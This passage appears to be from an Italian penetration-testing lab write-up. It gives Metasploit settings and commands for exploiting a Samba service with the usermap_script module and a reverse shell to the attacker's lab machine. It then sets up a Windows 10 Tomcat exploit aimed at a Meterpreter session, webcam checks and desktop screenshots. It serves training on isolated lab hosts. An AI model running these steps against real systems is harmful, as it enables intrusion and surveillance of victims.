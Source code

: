   ```bash
  set RPORT 445
  set payload cmd/unix/reverse
  set LHOST 192.168.13.100
  set LPORT 5555
  ```
- **Esecuzione dell'exploit**:
  ```bash
  exploit
  ```
  - L'exploit ha avuto successo, fornendo una shell sulla macchina vittima.

#### 3. 📡 Verifica dell'Accesso alla Macchina Compromessa

- **Comando eseguito**:
  ```bash
  ifconfig
  ```
  - Risultato: Confermato l'indirizzo IP della macchina vittima: `192.168.13.150

### ✅ Conclusioni

- 🔎 Il Vulnerability Scanning ha evidenziato una vulnerabilità critica nel servizio Samba sulla porta 445 TCP.
- 💥 La vulnerabilità è stata sfruttata con successo utilizzando l'exploit `exploit/multi/samba/usermap_script` di Metasploit.
- 🖥️ È stato ottenuto accesso alla macchina compromessa e confermato l'indirizzo IP tramite il comando `ifconfig`.

---

## 🛡️ TRACCIA GIORNO 5: Exploit di Windows 10 con Metasploit

### 📋 Descrizione
Sulla macchina Windows 10 ci sono servizi che possono essere sfruttati per ottenere una sessione Meterpreter. L'obiettivo di questa traccia è:

1. Avviare i servizi richiesti sulla macchina target.
2. Effettuare una scansione delle vulnerabilità con Nessus.
3. Utilizzare Metasploit per exploitare il servizio Tomcat.
4. Confermare l'accesso alla macchina compromessa e raccogliere evidenze:
   - Verificare se è una macchina virtuale o fisica.
   - Recuperare le impostazioni di rete.
   - Controllare la presenza di webcam.
   - Catturare uno screenshot del desktop.

### 🔧 Requisiti
- **IP Kali Linux**: 192.168.13.100
- **IP Windows 10**: 192.168.13.151
- **Porta di ascolto (LPORT)**: 7777
- **Tool utilizzati**: Nessus, MSFConsole, PowerShell
